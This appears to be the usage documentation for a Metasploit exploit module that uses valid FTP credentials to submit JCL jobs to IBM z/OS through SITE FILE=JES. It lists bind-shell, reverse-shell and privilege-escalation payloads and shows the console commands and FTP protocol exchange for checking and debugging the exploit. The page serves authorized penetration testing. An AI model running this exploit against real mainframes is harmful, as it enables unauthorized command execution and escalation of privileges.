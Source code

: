 z/OS JCL authorized FTP-base command execution - hints & tips

In order to use this exploit, you must have valid credentials on the target z/OS system.  The credentials must have access to upload files via FTP.  If in doubt, use the check function of the exploit.

## Vulnerable Application

This exploit was tested on the ftp daemons for z/OS version 1.13 / 2.1

## Payloads

If the exploit works, any JCL the user has rights to submit can be submitted.

See cmd type payloads under mainframe with jcl in the payload name, e.g.:

```
msf exploit(ftp_jcl_creds) > show payloads

Compatible Payloads
===================

   Name                             Disclosure Date  Rank    Description
   ----                             ---------------  ----    -----------
   cmd/mainframe/apf_privesc_jcl                     normal  JCL to escalate privileges via APF LIB
   cmd/mainframe/bind_shell_jcl                      normal  Z/OS (MVS) Command Shell, Bind TCP
   cmd/mainframe/generic_jcl                         normal  Generic JCL Test for Mainframe Exploits
   cmd/mainframe/reverse_shell_jcl                   normal  Z/OS (MVS) Command Shell, Reverse TCP
```

## Verification Steps

A successful check of the exploit will look like this:

```
msf exploit(ftp_jcl_creds) > set FTPUSER ftptest
FTPUSER => ftptest
msf exploit(ftp_jcl_creds) > set FTPPASS password
FTPPASS => password
msf exploit(ftp_jcl_creds) > set RHOST 10.10.10.1
RHOST => 10.10.10.1
msf exploit(ftp_jcl_creds) > info

       Name: FTP JCL Execution
     Module: exploit/mainframe/ftp/ftp_jcl_creds
   Platform: Mainframe
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2013-05-12

Available targets:
  Id  Name
  --  ----
  0   auto

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  FTPPASS  password         no        The password for the specified username
  FTPUSER  ftptest          no        The username to authenticate as
  RHOST    10.10.10.1     yes       The target address
  RPORT    21               yes       The target port
  SLEEP    5                no        Time to wait before checking if job has completed.

Payload information:

Description:
  Submit JCL to z/OS via FTP and SITE FILE=JES. This exploit requires
  valid credentials on the target system

msf exploit(ftp_jcl_creds) > check

[+] 10.10.10.1:21 - Successfully connected to FTP server.
[*] 10.10.10.1:21 - Found IBM z/OS Banner and JES commands accepted
[+] The target is vulnerable.
msf exploit(ftp_jcl_creds) >
```


## Debugging

If the exploit or check is not working, turn on the VERBOSE and FTPDEBUG settings of the exploit and run.
The output should look similar to the below, on a vulnerable system.

```
msf exploit(ftp_jcl_creds) > set FTPDEBUG true
FTPDEBUG => true
msf exploit(ftp_jcl_creds) > set VERBOSE true
VERBOSE => true
msf exploit(ftp_jcl_creds) > check

[*] 10.10.10.1:21 - Connecting to FTP server 10.10.10.1:21...
[*] 10.10.10.1:21 - FTP recv: "220-FTPD1 IBM FTP CS V2R1 at ZOS.EXAMPLE.COM, 16:52:31 on 2016-04-27.\r\n220 Connection will close if idle for more than 5 minutes.\r\n"
[*] 10.10.10.1:21 - Connected to target FTP server.
[*] 10.10.10.1:21 - Authenticating as ftptest with password password...
[*] 10.10.10.1:21 - FTP send: "USER ftptest\r\n"
[*] 10.10.10.1:21 - FTP recv: "331 Send password please.\r\n"
[*] 10.10.10.1:21 - Sending password...
[*] 10.10.10.1:21 - FTP send: "PASS password\r\n"
[*] 10.10.10.1:21 - FTP recv: "230 FTPTEST is logged on.  Working directory is \"FTPTEST.\".\r\n"
[+] 10.10.10.1:21 - Successfully connected to FTP server.
[*] 10.10.10.1:21 - FTP send: "site file=jes\r\n"
[*] 10.10.10.1:21 - FTP recv: "200 SITE command was accepted\r\n"
[*] 10.10.10.1:21 - Found IBM z/OS Banner and JES commands accepted
[+] The target is vulnerable.
msf exploit(ftp_jcl_creds) >
```

## Notes

The job run will leave a joblog for the credentials used.   
